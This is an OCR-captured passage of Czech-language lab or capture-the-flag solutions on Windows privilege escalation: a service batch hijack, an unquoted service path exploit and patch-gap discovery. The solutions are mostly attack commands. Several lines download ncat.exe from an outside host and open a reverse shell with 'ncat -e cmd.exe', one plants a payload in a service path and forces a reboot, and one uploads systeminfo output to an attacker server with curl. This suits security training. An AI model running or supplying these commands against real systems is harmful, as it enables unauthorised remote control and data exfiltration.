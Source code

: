 
	ECHO CURL http://1.2.3.170/ncat.exe --output C:\Windows\ncat.exe > D:\Temp\GDSClient\GDSClient_Service.bat
	ECHO NCAT 1.2.3.170 6000 -e CMD.exe >> D:\Temp\GDSClient\GDSClient_Service.bat
	TYPE D:\Temp\GDSClient\GDSClient_Service.bat

	SC STOP GDSClient_Service
	SC START GDSClient_Service

	SHUTDOWN /r /f /t 0

Challenge 16 (Unquoted Path)
----------------------------
Úkol:	Navyšte si oprávnění z účtu běžného uživatele, který spustil váš TotalCMD a poslal vám svou CMD na systémové oprávnění
	jiným způsobem než přes veřejně zapisovatelné binárky služeb

Řešení:
	WMIC service get name,pathname,startname | FINDSTR /i /v system32
	
	odhalíme službu jejíž cesta k binárce obsahuje mezery a není uzavřena v uvozovkách
	c:\Program Files\stupidservice\blbe udelane\srvany.exe 

	Pokud by na C:\ ležel soubor Program.exe, dostal by přednost a spustil by se. Zbytek cesty by mu byl předán jako parametry.
	Pokud by v adresáři "C:\Program Files\stupidservice" ležel soubor blbe.exe, dostal by přednost a spustil by se. Zbytek cesty by mu byl předán jako parametry.
	Zkontrolujeme, zda můžeme zapisovat do C:\ nebo do "C:\Program Files\stupidservice"
		ICACLS "c:\Program Files\stupidservice"
	Pokud ano, vložíme do složky náš útočný soubor blbe.exe, který se spustí po resartu jako služba
	Vytvoříme si útočný blbe.bat, který následně zkonvertujeme na exe nástrojem bat2exe

	blbe.bat
		timeout /t 10
		CURL http://1.2.3.170/ncat.exe --output C:\Windows\ncat.exe
		ncat 1.2.3.170 7000 -e cmd.exe

	Nástrojem bat2exe zkonvertujeme na blbe.exe
	Uploadneme blbe.exe na náš webový server
		SCP blbe.exe kali@192.168.56.170:/var/www/html

	Skrz vzdálenou CMD naší oběti stáhneme blbe.exe do adresáře "c:\Program Files\stupidservice"
		CURL http://1.2.3.170/blbe.exe --output "c:\Program Files\stupidservice\blbe.exe"

	Spustíme si server na portu 7000
		ncat -lp 7000

	Zrestartujeme PC oběti
		SHUTDOWN /r /f /t 0

Challenge 17 (Zranitelnosti OS umožňující privilege escalation)
---------------------------------------------------------------
Úkol:	Zjistěte, zda cílový systém, na který máme přístup skrz CMD běžného uživatele, netrpí známými zranitelnostmi
	v produktech Microsoftu, které bychom mohli zneužít pro navýšení oprávnění

Řešení:	Zjistíme, jaké záplaty od Microsoftu jsou aplikovány na cílovém systému
		SYSTEMINFO > %temp%\systeminfo.txt
	Odešleme systeminfo.txt útočníkovi
		CURL --form file=@%temp%\systeminfo.txt http://1.2.3.170/save.php
	Zjistíme, jaké záplaty Microsoft vydal
		wes --update
	Porovnáme aplikované záplaty s vydanými, čímž odhalíme chybějící záplaty
		wes systeminfo.txt
	Zjistíme, jaké chyby opravují chybějící záplaty, čímž zjistíme zranitelnosti, kterými trpí cílový systém

